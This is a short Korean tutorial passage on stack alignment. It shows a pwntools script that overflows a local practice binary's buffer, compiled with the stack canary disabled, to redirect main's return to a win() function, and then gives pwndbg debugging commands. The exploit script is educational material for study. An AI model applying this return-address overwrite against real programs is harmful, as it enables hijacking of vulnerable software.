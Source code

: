 정말 간단한 BOF 예제로 확인해보죠. vuln.c를 작성하고 컴파일해줍시다. BOF를 할 거니까 당연히 stack canary는 해제해주세요.

## bof.py

```python
# bof.py

from pwn import*

p = process('./vuln')

gdb.attach(p)

win = 0x401156

payload = b'A'*24 + p64(win)

p.sendline(payload)
p.interactive()
$ python3 bof.py
```

main()의 return 주소를 win() 함수의 entry point로 덮어쓰는 공격 코드입니다.

## Debug

![](x64-stack-alignment/17.png)

```bash
pwndbg> bp main+45
pwndbg> c
```

main()의 ret에 break point를 걸고 win() 함수가 호출된 후의 stack 상황을 봅시다.
